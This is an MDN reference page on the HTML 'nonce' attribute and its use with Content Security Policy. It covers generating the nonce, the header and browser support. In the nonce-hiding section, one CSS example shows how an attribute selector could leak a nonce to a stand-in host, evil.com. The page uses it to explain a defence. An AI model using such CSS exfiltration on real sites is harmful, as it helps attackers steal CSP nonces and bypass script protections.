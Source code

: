 

# nonce



::: section-content
The `nonce` [global attribute](../global_attributes) is a content
attribute defining a cryptographic nonce (\"number used once\") which
can be used by [Content Security
Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) to
determine whether or not a given fetch will be allowed to proceed for a
given element.
:::

## Description

::: section-content
The `nonce` attribute is useful to allowlist specific elements, such as
a particular inline script or style elements. It can help you to avoid
using the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
`unsafe-inline` directive, which would allowlist *all* inline scripts or
styles.

::: {#sect1 .notecard .note}
**Note:** Only use `nonce` for cases where you have no way around using
unsafe inline script or style contents. If you don\'t need `nonce`,
don\'t use it. If your script is static, you could also use a CSP hash
instead. (See usage notes on [unsafe inline
script](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#unsafe_inline_script).)
Always try to take full advantage of
[CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) protections
and avoid nonces or unsafe inline scripts whenever possible.
:::
:::

### Using nonce to allowlist a \<script\> element {#using_nonce_to_allowlist_a_script_element}

::: section-content
There are a few steps involved to allowlist an inline script using the
nonce mechanism:

#### Generating values {#generating_values}

From your web server, generate a random base64-encoded string of at
least 128 bits of data from a cryptographically secure random number
generator. Nonces should be generated differently each time the page
loads (nonce only once!). For example, in nodejs:

::: code-example
[js]{.language-name}

``` {signature="zB67V+cco1wa0pAli8kumuOzdGYLWKCjHlP3XEjixdI=" data-language="js"}
const crypto = require("crypto");
crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```
:::

#### Allowlisting inline script {#allowlisting_inline_script}

The nonce generated on your backend code should now be used for the
inline script that you\'d like to allowlist:

::: code-example
[html]{.language-name}

``` {signature="/tbYLnfwT3nAHyAmZ34j2NeBASwkbHO17OIz1j7dww4=" data-language="html"}
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  // …
</script>
```
:::

#### Sending a nonce with a CSP header {#sending_a_nonce_with_a_csp_header}

Finally, you\'ll need to send the nonce value in a
[`Content-Security-Policy`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)
header (prepend `nonce-`):

::: code-example
[http]{.language-name}

``` {signature="ofiWNqhGUZPyuFmL6RH8FcJ7x2+/Hsm19dtZhn6HaiI=" data-language="http"}
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```
:::
:::

### Accessing nonces and nonce hiding {#accessing_nonces_and_nonce_hiding}

::: section-content
For security reasons, the `nonce` content attribute is hidden (an empty
string will be returned).

::: code-example
[js]{.language-name}

``` {signature="vcL61plJ0VvPNb64YjMBAJFNGZ0iWWKVDIv9+S1GId0=" data-language="js"}
script.getAttribute("nonce"); // returns empty string
```
:::

The
[`nonce`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/nonce)
property is the only way to access nonces:

::: code-example
[js]{.language-name}

``` {signature="Z7QBT2SqRQcL8xBxFXe2jZUxiSa4amxUPgiIShO37ro=" data-language="js"}
script.nonce; // returns nonce value
```
:::

Nonce hiding helps prevent attackers from exfiltrating nonce data via
mechanisms that can grab data from content attributes like this:

::: code-example
[css]{.language-name}

``` {signature="7jcEtfhRt2s3WYAb5vuVO2C3mmcrN89eUhPgKa1r8QI=" data-language="css"}
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```
:::
:::

## Specifications

::: _table
  ------------------------------------------------------------------------------------------------
  Specification
  ------------------------------------------------------------------------------------------------
  [HTML Standard\
  [\#
  attr-nonce]{.small}](https://html.spec.whatwg.org/multipage/urls-and-fetching.html#attr-nonce)

  ------------------------------------------------------------------------------------------------
:::

## Browser compatibility {#browser_compatibility}

::: _table
                   Desktop                                                         Mobile                                                                                   
  ---------------- --------- ------ --------- ------------------- ------- -------- ----------------- ---------------- --------------------- --------------- --------------- ------------------
                   Chrome    Edge   Firefox   Internet Explorer   Opera   Safari   WebView Android   Chrome Android   Firefox for Android   Opera Android   Safari on IOS   Samsung Internet
  `nonce`          Yes       Yes    31        No                  Yes     Yes      Yes               Yes              31                    Yes             Yes             Yes
  `nonce_hiding`   61        79     75        No                  48      No       61                61               79                    45              No              8.0
:::

## See also {#see_also}

::: section-content
-   [`HTMLElement.nonce`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/nonce)
-   [Content Security
    Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
-   CSP:
    [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)
:::

::: _attribution
© 2005--2023 MDN contributors.\
Licensed under the Creative Commons Attribution-ShareAlike License v2.5
or later.\
[https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce){._attribution-link}
:::
